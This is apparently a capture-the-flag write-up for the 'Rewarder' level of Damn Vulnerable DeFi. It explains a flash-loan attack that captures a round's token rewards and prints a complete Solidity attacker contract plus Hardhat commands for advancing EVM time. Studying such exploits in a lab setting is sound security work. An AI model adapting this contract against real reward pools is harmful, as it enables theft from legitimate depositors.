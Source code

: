 # Intro

There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

# Glossary

- **Currency Peg**: It is a monetary policy in which an entity sets a specific fixed exchange rate for its own currency with a foreign currency.

- **ERC20 snapshot**: When a snapshot is created, the balances and total supply at the time are recorded for later access. To get the total supply at the time of a snapshot, call the function totalSupplyAt with the snapshot id. To get the balance of an account at the time of a snapshot, call the balanceOfAt function with the snapshot id and the account address.

# Attack explanation

In order to beat the level, we need to wait for the next round of rewards to start, and get a flash loan for all DVT tokens. Then deposit our loaned DVT tokens into the rewarder pool. This will trigger a distribute rewards back to us and we will get all the rewards from the round. Immediately we need to call withdraw to claim the rewards and repay the DVT flash loan back to the flash loaner pool. Then we can transfer the rewards tokens back to us.

# Attack function

We can create the following attacker contract to make the attack:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TheRewarderPool.sol";
import "./FlashLoanerPool.sol";
import "./RewardToken.sol";

/**
 * @title AttackerContractRewarder
 * @author Juan Farber (github.com/Farber98)
 */

contract AttackerContractRewarder {
    TheRewarderPool public rewarderPool;
    FlashLoanerPool public flashLoanerPool;
    IERC20 public token;
    IERC20 public reward;

    constructor(
        address _flashLoanerPool,
        address _rewarderPool,
        IERC20 _token,
        IERC20 _rewardToken
    ) {
        flashLoanerPool = FlashLoanerPool(_flashLoanerPool);
        rewarderPool = TheRewarderPool(_rewarderPool);
        token = _token;
        reward = _rewardToken;
    }

    function attack() external payable {
        // Calls the loan.
        flashLoanerPool.flashLoan(token.balanceOf(address(flashLoanerPool)));

        // Get rewards.
        reward.transfer(msg.sender, reward.balanceOf(address(this)));
    }

    // To receive the loan.
    fallback() external payable {
        uint256 balance = token.balanceOf(address(this));

        // Approve rewarder pool.
        token.approve(address(rewarderPool), balance);

        // Deposits into rewarder pool.
        rewarderPool.deposit(balance);

        // Withdraw rewards.
        rewarderPool.withdraw(balance);

        // Repay loan.
        token.transfer(address(flashLoanerPool), balance);
    }
}

```

And the trick to pass the tests is to increase evm time:

```
const fiveDays = 5 * 24 * 60 * 60;
await ethers.provider.send("evm_increaseTime", [fiveDays]);
await ethers.provider.send("evm_mine");
```
